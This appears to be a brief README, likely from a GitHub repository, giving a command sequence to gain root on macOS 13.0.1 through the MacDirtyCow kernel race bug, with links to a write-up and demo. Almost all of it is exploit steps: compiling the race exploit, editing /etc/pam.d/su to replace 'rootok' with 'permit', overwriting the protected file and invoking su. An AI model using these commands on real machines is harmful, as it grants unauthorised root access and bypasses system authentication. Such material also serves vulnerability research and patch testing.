 ### Get root on macOS 13.0.1
```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

### References
https://worthdoingbadly.com/macdirtycow/
https://github.com/zhuowei/MacDirtyCowDemo

